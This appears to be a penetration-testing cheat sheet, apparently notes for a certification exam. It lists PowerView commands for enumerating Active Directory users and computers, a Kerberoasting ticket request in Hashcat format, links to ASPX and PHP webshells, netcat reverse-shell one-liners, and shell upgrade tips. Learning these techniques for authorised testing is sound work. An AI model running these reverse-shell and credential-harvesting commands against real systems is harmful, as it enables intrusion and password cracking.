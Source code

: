 #### Get Domain Computers

* `Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

* `Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

* `Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### Shells

These are the most consistent webshells that I have discovered throughout testing:&#x20;

* [Aspnet](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx)&#x20;
* [PHP](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

`nc 10.10.10.1 4444 –e /bin/bash`

`nc.exe 10.10.10.1 4444 –e cmd.exe`

### SMB

If you are received the following error message when attempting to enumerate an SMB share then apply the following fix:&#x20;

```
do_connect: Connection to 10.11.1.136' failed (Error NT_STATUS_UNSUCCESSFUL)
```

Fix:

```
client min protocol = NT1
```

### Shell Upgrades

[This is a great guide on upgrading to a TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

`python -c 'import pty; pty.spawn("/bin/bash")'`

Best TTY upgrade:

1. Background your shell with `CTRL + Z` or `CMD + Z`

### General Tips and Tricks

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* When enumerating FTP, ensure you run `dir -a` to enumerate any hidden files or directories on the system. You may find l00t!
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;

